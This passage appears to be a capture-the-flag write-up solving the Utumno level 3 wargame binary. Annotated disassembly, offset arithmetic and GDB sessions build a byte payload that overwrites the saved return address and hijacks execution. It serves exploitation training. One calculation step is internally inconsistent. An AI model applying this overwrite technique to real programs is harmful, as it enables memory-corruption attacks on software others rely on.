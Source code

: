 ```nasm
0x08048438 <+77>:	add    eax,edx ; EAX = ptr + 0
0x0804843a <+79>:	movzx  eax,BYTE PTR [eax] ; move the first char in EAX
0x0804843d <+82>:	movsx  ebx,al ; move the first char in EBX
0x08048440 <+85>:	call   0x80482c0 <getchar@plt> ; get the second char
0x08048445 <+90>:	mov    BYTE PTR [ebp+ebx*1-0x24],al ; move the second char @ebp+ebx*1-0x24
0x08048449 <+94>:	add    DWORD PTR [ebp-0x8],0x1 ; increment the loop counter by 1
```

As you can see, at **main+90**, the address where you want to write the second char will depend on **EBX** value (the first char) but also, the loop counter. The first iteration is quite easy as the result of the **XOR** operation will be 0. Let's compute the address and write the first part of the payload.

```text
EBP = 0xffffd688
EBX = 0x00000041 (just a example with 'A')
Target = 0xffffd68c (first part of the ret address)
EBP + EBX = 0xFFFFD6C9
0xFFFFD6C9 - 0x24 = 0xFFFFD6A5
```

Ok, the result is not good. We need to obtain `0xffffd68c` not ``0xffffd6a5`. After a few try I found the right value for our first byte: **0x28**.

```text
EBP = 0xffffd688
EBX = 0x00000028 (just a example with 'A')
Target = 0xffffd68c (first part of the ret address)
EBP + EBX = 0xFFFFD6B0
0xFFFFD6C9 - 0x24 = 0xFFFFD68C
```

Let's do that in **GDB** :

```nasm
(gdb) break *main+94
Breakpoint 2 at 0x8048449: file utumno3.c, line 30.
(gdb) run <<< $(python -c "print '\x28\x41'")

Starting program: /utumno/utumno3 <<< $(python -c "print '\x28\x41'")

Breakpoint 2, main (argc=1, argv=0xffffd724) at utumno3.c:30
30	in utumno3.c
(gdb) x/8wx $ebp
0xffffd688:	0x00000000	0xf7e2a241	0x00000001	0xffffd724
0xffffd698:	0xffffd72c	0x00000000	0x00000000	0x00000000
```

Perfect we overwrote the last byte of the return address with **0x41**. As the process will be the same for the other bytes, I won't decribe it. However, note that at the first iteration the first char is xored with 0, at the second iteration the third char will be xored with 3, at the third iteration, the fifth char will be xored with 6 and finally, the seventh char will be xored with 9.

Here is the final payload :

```nasm
(gdb) run <<< $(python -c "print '\x28\x41\x2a\x42\x2c\x43\x22\x44'")
Starting program: /utumno/utumno3 <<< $(python -c "print '\x28\x41\x2a\x42\x2c\x43\x22\x44'")

Program received signal SIGSEGV, Segmentation fault.
0x44434241 in ?? ()
=> 0x44434241:	Cannot access memory at address 0x44434241
```
